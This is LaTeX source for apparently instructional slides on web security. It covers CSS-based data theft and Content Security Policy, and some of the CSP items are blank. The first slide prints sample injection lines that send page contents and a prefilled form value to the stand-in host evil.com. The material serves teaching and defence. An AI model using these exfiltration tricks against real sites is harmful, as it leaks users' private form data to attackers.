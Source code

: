 \begin{frame}[fragile]{Aside: why care about stylesheets?}
    \begin{itemize}
    \item get data: \verb|<link rel=stylesheet href="http://evil.com/?webpage contents here...|
    \item conditional image loaded to get data? assuming pre-filled-in-form:
        \begin{itemize}
        \item \verb|input[value^=Virginia] {background: url(http://evil.com?Virginia)}|
        \end{itemize}
    \item adjust webpage display in lots of ways
        \begin{itemize}
        \item convince user to click in wrong places?
        \end{itemize}
    \item IE 7 supported CSS expressions that can construct URLs from webpage data directly
    \end{itemize}
\end{frame}

\begin{frame}{Content Security Policy examples}
    \begin{itemize}
        \item {}
        \begin{itemize}
            \item allow scripts from same host or \texttt{www.google-analytics.com}
            \item {}
            \item disallow plugins
        \end{itemize}
    \item {}
        \begin{itemize}
            \item allow nothing to start; then whitelist what is needed
            \item recommended strategy
        \end{itemize}
    \end{itemize}
\end{frame}

